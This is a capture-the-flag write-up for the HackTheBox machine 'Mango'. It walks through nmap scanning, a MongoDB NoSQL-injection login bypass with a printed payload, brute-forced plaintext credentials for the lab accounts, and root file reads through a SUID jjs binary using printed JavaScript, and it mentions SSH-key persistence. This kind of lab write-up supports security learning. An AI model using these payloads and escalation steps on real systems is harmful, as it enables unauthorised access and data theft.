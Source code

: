 # Mango

<table>
  <tr>
    <td style="text-align:right;"><b>OS</b></td>
    <td>Linux</td>
  </tr>
  <tr>
    <td style="text-align:right;"><b>Difficulty</b></td>
    <td>Medium</td>
  </tr>
  <tr>
    <td style="text-align:right;"><b>Points</b></td>
    <td>30</td>
  </tr>
  <tr>
    <td style="text-align:right;"><b>Release</b></td>
    <td>26 Oct 2019</td>
  </tr>
  <tr>
    <td style="text-align:right;"><b>IP</b></td>
    <td>10.10.10.162</td>
  </tr>
</table>

## Foothold

To begin, we will add the entry `10.10.10.162 mango.htb` to `/etc/hosts` and then start scanning.

```
# nmap -sC -sV mango.htb
Starting Nmap 7.80 ( https://nmap.org ) at 2020-04-30 17:28 EDT
Nmap scan report for mango.htb (10.10.10.162)
Host is up (0.037s latency).
Not shown: 997 closed ports
PORT    STATE SERVICE VERSION
22/tcp  open  ssh     OpenSSH 7.6p1 Ubuntu 4ubuntu0.3 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey: 
|   2048 a8:8f:d9:6f:a6:e4:ee:56:e3:ef:54:54:6d:56:0c:f5 (RSA)
|   256 6a:1c:ba:89:1e:b0:57:2f:fe:63:e1:61:72:89:b4:cf (ECDSA)
|_  256 90:70:fb:6f:38:ae:dc:3b:0b:31:68:64:b0:4e:7d:c9 (ED25519)
80/tcp  open  http    Apache httpd 2.4.29 ((Ubuntu))
|_http-server-header: Apache/2.4.29 (Ubuntu)
|_http-title: 403 Forbidden
443/tcp open  ssl/ssl Apache httpd (SSL-only mode)
|_http-server-header: Apache/2.4.29 (Ubuntu)
|_http-title: Mango | Search Base
| ssl-cert: Subject: commonName=staging-order.mango.htb/organizationName=Mango Prv Ltd./stateOrProvinceName=None/countryName=IN
| Not valid before: 2019-09-27T14:21:19
|_Not valid after:  2020-09-26T14:21:19
|_ssl-date: TLS randomness does not represent time
| tls-alpn: 
|_  http/1.1
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel
```

From this, we see that SSH, HTTP, and HTTPS are open. An additional port scan on all ports on the machine did not find anything new. Now, we can begin to look at web pages.

Browsing to http://mango.htb:80, we get a 403 FORBIDDEN error, so not much else to see here. That leaves the HTTPS site, so we will browse to https://mango.htb:443. We initially get a "Potential Security Risk Ahead" warning which is strange, but we will proceed anyone and are met with a Google-like landing page.

![](images/mango-landing.png)

Trying to use it as a search engine yields no results but we see that there is a user signed in. Clicking on the analytics tab redirects to https://mango.htb/analytics.php. After much looking around and researching this page, it appears to be a rabbit hole. With no more links on the page and no directory busting working, there must be something that we are overlooking.

If we look more closely at our nmap results, we see a similar but different URL listed for port 443 - staging-order.mango.htb. If we try browsing to it at first it doesn't work, we need to also add it to our hosts file.

![](images/login.png)

## User

From here it is clear that we need to do some sort of injection to get user credentials. The box name gives us a big hint about this. The database powering this login in MongoDB.

In order to learn more about injection with MongoDB, we can look at the [PayloadAllTheThings](https://github.com/swisskyrepo/PayloadsAllTheThings/tree/master/NoSQL%20Injection) repository. We can use one of the payloads listed and try to login. For this we can utilize Burp Suite. We will intercept the payload from the site and replace it with `username[$ne]=toto&password[$ne]=toto`.

![](images/under-plantation.png)

Since our payload worked, we have verified that is actually MongoDB behind the scenes. However, the page we log in to is just a maintenance screen without any real information, we will have to research further.

From [this blogpost](https://book.hacktricks.xyz/pentesting-web/nosql-injection) about NoSQL injection, we see that there is more to injection here than just login bypassing. We are actually able to extract user logins and even brute-force their passwords relatively easy. 

To do this, we will use their sample script to brute-force login usernames and passwords from POST login. We will have to add our own variables and obtain a sample session ID from Burp Suite.

```
# /usr/bin/python brute-force.py
Found username starting with a
^ad
^adm
^admi
^admin
Found username: admin
Found username starting with m
^ma
^man
^mang
^mango
Found username: mango
Extracting password of admin
Found password t9KcS3>!0B#2 for username admin
Extracting password of mango
Found password h3mXK8RhU~f{]f5H for username mango
```

We can now try to SSH onto the box with these credentials. User admin does not work but mango does. We can see why this is this case if we look at the SSHD configuration. While we can't SSH to admin, we are able to simply switch to them while we are on the box and then read the flag.

```
# ssh mango@mango.htb
mango@mango.htb's password: 
Welcome to Ubuntu 18.04.2 LTS (GNU/Linux 4.15.0-64-generic x86_64)
...
mango@mango:~$ cat /etc/ssh/sshd_config 
...
AllowUsers mango root
mango@mango:~$ su admin
Password: 
$ cd
$ ls
user.txt
$ cat user.txt
79bf31**************************
```

## Root

From here, we can begin enumeration for root. There aren't any other files laying around so we will use the LinEnum script.

```
$ ./LinEnum.sh
...
[+] Possibly interesting SGID files:
-rwsr-sr-- 1 root admin 10352 Jul 18  2019 /usr/lib/jvm/java-11-openjdk-amd64/bin/jjs
...
```

Admin is able to run this file as root which is very promising. There is an entry for `jjs` on [GTFOBins](https://gtfobins.github.io/gtfobins/jjs/). One such thing we can do is make arbitrary reads/writes to the system. If we wanted some persistence, we could write our SSH key to root's authorized keys. Since we just need the flag, we can read it.

```
$ echo 'var BufferedReader = Java.type("java.io.BufferedReader");
> var FileReader = Java.type("java.io.FileReader");
> var br = new BufferedReader(new FileReader("/root/root.txt"));
> while ((line = br.readLine()) != null) { print(line); }' | jjs
Warning: The jjs tool is planned to be removed from a future JDK release
jjs> var BufferedReader = Java.type("java.io.BufferedReader");
jjs> var FileReader = Java.type("java.io.FileReader");
jjs> var br = new BufferedReader(new FileReader("/root/root.txt"));
jjs> while ((line = br.readLine()) != null) { print(line); }
8a8ef7**************************
```
